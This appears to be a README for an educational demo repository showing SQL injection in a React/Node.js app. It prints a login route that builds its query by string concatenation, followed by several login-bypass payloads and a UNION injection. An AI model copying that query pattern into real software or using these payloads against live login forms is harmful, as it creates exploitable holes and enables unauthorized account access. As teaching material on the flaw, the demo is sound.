

# 🚨 React-Node.js SQL Injection Demo 🚨




This repository demonstrates a SQL injection vulnerability in a React-Node.js application.

## Setup

### Server-side Installation

1. cd into the `server` directory
2. Run `npm install`
3. Run `npm start`

### Client-side Installation

1. cd into the `client` directory
2. Run `npm install`
3. Run `npm start`

## Vulnerability

The vulnerability is in the `server/routes/users.js` file. The `login` route is vulnerable to SQL injection. The `login` route is defined as follows:

```
router.post('/login', function(req, res, next) {
  const username = req.body.username;
  const password = req.body.password;

  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
```

### 🚀 Usage

1. Visit the application in your browser and enter the following SQL query:
```' or 1=1;-- -```

2. Enter the following SQL query:
``` ' or True;-- - ```

3. When you know the username and don't know the password or it is hashed, enter the following SQL query
``` username'  and 1=1;-- - ```

4. When you know the password but don't know the username you can use the following queries
``` ' or false /* ``` and ```*/ or password = 'password```

5. UNION attack against the database.
``` linne' UNION SELECT 1, 'admin', 'admin', '1234567890', 'password', 'male';-- - ```

This will display all values as the condition is true, bypassing the password requirement.

### ⚠️ Disclaimer
This repository is for educational purposes only. Do not use this code in production.

